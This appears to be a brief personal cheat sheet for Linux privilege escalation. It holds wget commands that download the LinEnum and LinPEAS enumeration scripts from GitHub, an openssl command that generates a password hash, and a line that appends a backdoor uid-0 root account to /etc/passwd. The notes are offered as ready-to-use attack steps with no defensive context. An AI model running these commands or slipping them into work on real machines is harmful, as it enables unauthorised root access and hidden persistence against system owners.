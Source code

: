 # takeit

LinEnum (für priv. esc.)<br>
wget https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh

LinPEAS <br>
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

Vertikal
openssl passwd -1 -salt [salt] [password] <br>
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash >> /etc/passwd <br>
